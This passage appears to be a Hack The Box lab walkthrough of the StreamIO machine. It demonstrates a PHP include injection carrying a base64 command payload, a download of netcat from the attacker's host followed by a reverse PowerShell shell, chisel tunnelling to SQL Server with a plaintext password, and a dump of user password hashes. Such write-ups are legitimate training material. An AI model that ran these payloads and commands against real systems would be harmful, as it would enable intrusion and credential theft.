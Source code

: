 ```console
zero@pio$ curl -s -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H 'Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d' "https://streamio.htb/admin/?debug=master.php&cmd=whoami"

	</form>
	streamio\yoshihide
	                </div>
	        </center>
	</body>
```

Upload netcat and start a reverse shell:

```console
zero@pio$ python3 -m http.server
```

```console
zero@pio$ curl -s -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H "Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d" "https://streamio.htb/admin/?debug=master.php&cmd=curl+10.10.16.44/nc.exe+-o+C:\\ProgramData\\netcat.exe" &>/dev/null
zero@pio$ curl -s -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H "Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d" "https://streamio.htb/admin/?debug=master.php&cmd=cmd+/c+C:\\ProgramData\\netcat.exe+-e+powershell+10.10.16.44+443" &>/dev/null
```

And now we have a connection.

# Privilege Escalation

Start a chisel connection to access the sql server:

```console
zero@pio$ chisel server --reverse --port 8000
```

```console
PS C:\ProgramData> .\chisel.exe client 10.10.16.44:8000 R:1433:127.0.0.1:1433
```

Now make a connection with the previous founded credentials:

```console
zero@pio$ sqsh -S 127.0.0.1:1433 -U db_admin -P B1@hx31234567890 -D streamio_backup
```

We can found there some credentials:

```console
1> select username,password from users;
2> go    

 username        password
--------------- ----------------------------------

 nikk37          389d14cb8e4e9b94b137deb1caf0612a
 yoshihide       b779ba15cedfd22a023c4d8bcf5f2332
 James           c660060492d9edcaa8332d89c99c9239
 Theodore        925e5408ecb67aea449373d668b7359e
 Samantha        083ffae904143c4796e464dac33c1f7d
 Lauren          08344b85b329d7efd611b7a7743e8a09
 William         d62be0dc82071bccc1322d64ec5b6c51
 Sabrina         f87d3c0d6c8fd686aacc6627f1f493a5
```
